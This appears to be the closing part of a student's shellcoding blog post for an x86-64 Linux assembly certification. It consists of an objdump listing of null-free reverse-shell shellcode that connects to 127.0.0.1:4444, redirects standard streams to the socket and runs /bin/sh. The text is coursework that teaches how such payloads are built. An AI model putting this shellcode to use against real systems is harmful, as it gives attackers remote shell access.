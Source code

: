 ### Dump after null bytes removing

```nasm
skrox@kali:~$ objdump -M intel -d RevShell-null-removed

RevShell-null-removed:     format de fichier elf64-x86-64


Déassemblage de la section .text :

0000000000401000 <_start>:
  401000:	31 ff                	xor    edi,edi
  401002:	f7 e7                	mul    edi
  401004:	89 fe                	mov    esi,edi
  401006:	b0 29                	mov    al,0x29
  401008:	40 b7 02             	mov    dil,0x2
  40100b:	40 b6 01             	mov    sil,0x1
  40100e:	0f 05                	syscall 
  401010:	48 89 c7             	mov    rdi,rax
  401013:	48 31 c0             	xor    rax,rax
  401016:	50                   	push   rax
  401017:	c7 44 24 fc ff ff ff 	mov    DWORD PTR [rsp-0x4],0xffffffff
  40101e:	ff 
  40101f:	81 6c 24 fc 80 ff ff 	sub    DWORD PTR [rsp-0x4],0xfeffff80
  401026:	fe 
  401027:	66 c7 44 24 fa 11 5c 	mov    WORD PTR [rsp-0x6],0x5c11
  40102e:	b0 02                	mov    al,0x2
  401030:	66 89 44 24 f8       	mov    WORD PTR [rsp-0x8],ax
  401035:	48 83 ec 08          	sub    rsp,0x8
  401039:	b0 2a                	mov    al,0x2a
  40103b:	48 89 e6             	mov    rsi,rsp
  40103e:	b2 10                	mov    dl,0x10
  401040:	0f 05                	syscall 
  401042:	b0 21                	mov    al,0x21
  401044:	31 f6                	xor    esi,esi
  401046:	0f 05                	syscall 
  401048:	b0 21                	mov    al,0x21
  40104a:	40 b6 01             	mov    sil,0x1
  40104d:	0f 05                	syscall 
  40104f:	b0 21                	mov    al,0x21
  401051:	40 b6 02             	mov    sil,0x2
  401054:	0f 05                	syscall 
  401056:	48 31 c0             	xor    rax,rax
  401059:	50                   	push   rax
  40105a:	48 bb 2f 62 69 6e 2f 	movabs rbx,0x68732f2f6e69622f
  401061:	2f 73 68 
  401064:	53                   	push   rbx
  401065:	48 89 e7             	mov    rdi,rsp
  401068:	50                   	push   rax
  401069:	48 89 e2             	mov    rdx,rsp
  40106c:	57                   	push   rdi
  40106d:	48 89 e6             	mov    rsi,rsp
  401070:	48 83 c0 3b          	add    rax,0x3b
  401074:	0f 05                	syscall 
```
And it's all for this second assignment :)

***This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-
linux/index.html)  
Student ID: PA-14186***
